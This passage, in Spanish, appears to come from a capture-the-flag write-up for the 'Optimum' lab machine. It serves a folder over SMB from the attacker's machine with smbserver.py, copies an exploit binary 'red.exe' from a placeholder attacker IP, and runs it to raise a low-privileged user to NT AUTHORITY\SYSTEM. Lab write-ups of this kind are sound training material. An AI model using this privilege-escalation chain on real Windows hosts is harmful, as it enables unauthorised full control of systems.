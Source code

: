 * Compartimos el recurso por smb

```shell
> smbserver.py smbFolder $(pwd)
```

* Copiamos el archivo

```shell
C:\Windows\Temp\Privesc> copy \\<tu-ip>\smbFolder\red.exe red.exe
```

* Escalamos de privilegios al usuario administrador

```shell
C:\Windows\Temp\Privesc> whoami
whoami
optimum\kostas

C:\Windows\Temp\Privesc> red.exe
red.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

\> whoami
nt authority\system
```
